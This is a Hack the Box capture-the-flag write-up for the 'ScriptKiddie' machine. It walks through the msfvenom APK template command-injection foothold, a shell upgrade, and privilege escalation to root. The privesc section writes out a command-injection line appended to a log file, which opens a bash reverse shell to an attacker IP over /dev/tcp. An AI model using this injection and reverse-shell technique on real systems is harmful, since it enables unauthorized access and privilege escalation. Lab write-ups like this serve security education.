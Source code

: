 ```yaml
---
description: Writeup for ScriptKiddie from Hack the Box
---
```


# ScriptKiddie

`nmap -sV 10.10.10.226`

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

![](../../.gitbook/assets/75ee0187b1e745668bc08cdc5677c42a.png)

There is an option to generate an MSFVenom payload, using a template file.

Searchsploit for any relevant exploits:

![](../../.gitbook/assets/f174e1dea95742759ddc3891b33f419f.png)

POC code for APK template file command injection vulnerability:

[https://github.com/justinsteven/advisories/blob/master/2020\_metasploit\_msfvenom\_apk\_template\_cmdi.md\#poc](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md#poc)

Upload the produced APK file as the template.

![](../../.gitbook/assets/d373f22e72214df8bbffc1029333b581.png)

'Upgrade' the shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

![](../../.gitbook/assets/a1bdeaf003a3458d92d88e10422eee04.png)

## Privesc

Exploring the folders a bit more, there is a `pwn` user, and there is a `scanlosers` script.

![](../../.gitbook/assets/449975bef5134ea5902be3484d70ce5e.png)

Note the `cut -d' ' -f3-'`: refer to the manual page [https://man7.org/linux/man-pages/man1/cut.1.html](https://man7.org/linux/man-pages/man1/cut.1.html)

This will split the string based on the 'space' delimiter, and keep everything from the 3rd field onwards. By adding two spaces to the front, we are splitting the string into: `"" <space> "" <space> ";/bin/bash -c ..."` so that the command is retained.

`echo " ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.47/1234 0>&1' #" >> /home/kid/logs/hackers`

Set up a netcat listener again. Now, we got a shell as the `pwn` user, with higher privileges.

Check the available sudo commands as the pwn user: `sudo -l`

![](../../.gitbook/assets/ff93b071c3f8403f8298d1e67f9109f0.png)

We are able to run `msfconsole` as root!

![](../../.gitbook/assets/42e74ab98cd04863a4f248f39aa043b7.png)

Since msfconsole is able to execute standard commands as well, simply doing `sudo msfconsole` will give us a shell as root.

![](../../.gitbook/assets/2270b167deea479085228d7b22e38b64.png)

